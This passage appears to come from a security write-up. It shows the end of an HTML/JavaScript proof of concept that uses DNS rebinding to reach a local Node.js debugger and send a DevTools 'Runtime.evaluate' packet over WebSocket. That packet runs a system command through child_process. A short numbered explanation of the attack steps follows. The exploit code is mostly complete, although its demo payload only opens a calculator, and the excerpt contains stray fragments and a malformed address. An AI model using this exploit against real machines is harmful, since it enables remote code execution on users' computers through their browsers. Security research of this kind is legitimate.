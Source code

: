 ```
          function exploit(url) {
                function nodejs() {
                        const cmd = {
                          darwin: 'open /Applications/Calculator.app',
                          win32: 'calc',
                          linux: 'xcalc',
                        };
                process.mainModule.require('child_process').exec(
                cmd[process.platform])
                };
                const packet = {
                  "id": 13371337,
                  "method": "Runtime.evaluate",
                  "params": {
                    "expression": `(${nodejs})()`,
                    "objectGroup": "console",
                    "includeCommandLineAPI": true,
                    "silent": false,
                    "contextId": 1,
                    "returnByValue": false,
                    "generatePreview": true,
                    "userGesture": true,
                    "awaitPromise": false,
                  }
                };
                const ws = new WebSocket(item.webSocketDebuggerUrl);
                  ws.onopen = () => ws.send(JSON.stringify(packet));
                  ws.onmessage = ({ data }) => {
                        if (JSON.parse(data).id === 13371337)
                          ws.close()
                  };
                  ws.onerror = err => console.error('failed to connect');
          };
        exploit(item.webSocketDebuggerUrl)
        });
}, 60000) // 60 seconds;
</script>
</body>
</html>
```

This Javascript file does the following:

1 - Invokes the setTimeout() function to trigger the code execution after some the user reaches the html page (this will give time for the DNS server to change its resolving IP to 127.0.0.1)
2 - We make a fetch request to get the file, in 'http://127:0.0.1:9334/json' that will present to us the webSocketDebuggerUrl corresponding to the debbuger.
3 - The exploit() funtion creates the WS request that will act as the payload and execute the commands in the machine.
4 - We initialize the exploit sending the webSocketDebuggerUrl of the debuger, which will prompt a calc.
